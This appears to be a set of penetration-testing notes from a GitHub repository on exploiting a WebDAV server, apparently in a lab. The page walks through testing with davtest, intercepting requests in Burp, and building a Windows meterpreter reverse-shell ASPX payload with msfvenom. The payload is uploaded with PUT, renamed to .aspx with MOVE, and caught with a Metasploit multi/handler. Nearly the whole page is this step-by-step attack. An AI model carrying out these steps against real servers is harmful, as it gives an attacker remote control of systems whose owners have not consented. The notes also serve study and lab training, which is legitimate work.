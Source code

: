 # Webdav Testing

## Davtest

```
$davtest -url http://url-of-the-host
```

## Davtest through proxy

```
Open Burp
Setup new proxy listener
Set local listener port *(80) 
Set remote host (10.10.10.15)
Set remote port (80)
```

## Setting up proxy 

![Davtest-01](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-01.png)

## Confirming Webdav Manipulation

![Davtest-02](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-02.png)

## Davtest

![Davtest-03](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-03.png)

## Test upload using post

```
1) Send one of the PUT request to the repeater tab
2) Modify the URL to /test.html or whatever you like
3) In the body add some text and send the request (shold get 201)
```

![Davtest-04](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-04.png)

![Davtest-05](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-05.png)

## Create an Msfvenom Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.49 LPORT=443 -f aspx
```

## Upload Msfvenom Shell using PUT

```
1) Using the PUT request in repeater tab, modify the destination to /shell.html
2) In the body, take contents of the .ASPX Msfvenom shell and paste
3) Send the request (should get 201)
```

![Davtest-06](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-06.png)

## Setup Multihandler in Msfconsole to catch our Shell

```
1) Msfconsole
2) Use exploit/multi/handler
```

![Davtest-07](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-07.png)

## MOVING the .html to .aspx to complete the Reverse Shell
[URL] (https://docs.microsoft.com/en-us/previous-versions/office/developer/exchange-server-2003/aa142926(v=exchg.65))

```
1) Back in the repeater tab Manipulate the HTTP Method from PUT to MOVE
1a) PUT /shell.html
2) Add a new line underneath PUT with:
2a) Destination: /shell.aspx
```

![Davtest-08](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-08.png)

## Browse to location of /shell.aspx


![Davtest-09](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-09.png)